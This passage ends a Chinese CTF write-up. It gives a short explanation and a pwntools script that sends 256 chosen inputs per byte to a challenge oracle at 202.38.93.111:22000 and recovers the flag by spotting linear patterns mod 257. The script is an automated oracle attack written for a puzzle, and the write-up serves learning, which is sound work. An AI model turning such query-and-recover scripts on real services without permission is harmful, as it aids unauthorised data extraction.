假如猜测正确，对于 $x=0$ 和 $1$ 的情况我们都可以得知，从而推出 $k$，和 $b$ ，于是继续往后 check，(可能会碰到因 256 变 0 带来的 bug)，但总体应该还是正常，这样的连续值应该尽可能高，因此可以作为一个特征，每一行都是一个特征，求和作为总特征。

于是 256 次询问才能爆出一个字符，刚开始版本的特征还要烂，需要手工 fuzzy，这个版本正确率比较高，似乎是 100%。

{}
```python
from pwn import *
import string

def interactive(r,msg):
    c=r.recv(1).decode()
    assert(c=='>')
    r.sendline(msg.encode())
    r.recvline()
    x=r.recvline().decode()
    res=x.strip().split(':')[1]
    return res[1:]

def genMytest(r,origin,idx,dic):
    global myflag
    f=[ [0 for j in range(256)] for i in range(128) ]
    for _ in range(256):
        msg=origin[:2*idx]+'{:02X}'.format(_) + origin[2*idx+2:]
        assert(len(msg)==256)
        res= interactive(r,msg)
        for i in range(128):
            tmp=res[2*i:2*i+2]
            f[i][_]=int(tmp,16)
    # print(f)
    target = -1
    for i in range(128):  # 会有一个特殊的情况？
        if all(f[i])!=0:
            target=i

    mx = 0
    possible = 'a'
    for guess in range(256):  
        if chr(guess) not in string.printable:
            continue
            
        cnt1 = 0
        for j in range(128):
            if j==target:
                continue
            b1 = f[j][guess]
            k1= (f[j][(guess ^ 1)] - b1 + 257)%257
            # print(f'{guess =},{k =},{b =},{f [(guess ^^ 1)] =}')
            pre1 = f[j][guess ^ 1]
            for x in range(2,256):
                cur1 = f[j][(guess ^ x)]
                if(cur1 == (pre1 + k1) %257):
                    cnt1 += 1
                else:
                    break
                pre1 = cur1
        # print(f'{cnt1 =},{guess =} : {chr(guess)}')
        if cnt1>mx:
            mx=cnt1
            possible=chr(guess)

    print(f'{possible=}')
    myflag+=possible
    print(f'{mx=}')           
    if possible in ans:
        ans[possible] += 1
    else:
        ans.update({possible:1})

org="0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001" # 保证非空

# tar = []
myflag=""
for i in range(0,100): # 72 即可
    ans={}
    for test in range(1): # 可以增大实验次数，but one enough
        r = remote('202.38.93.111', 22000)
        r.recvline()
        r.sendline(b"yourtoken")
        r.recvline()
        r.recvline()
        genMytest(r,org,i,ans)
    # print(ans)
    # tar.append(ans)
print(myflag)
# print(tar)
```
{}

# 后语

明年还来？
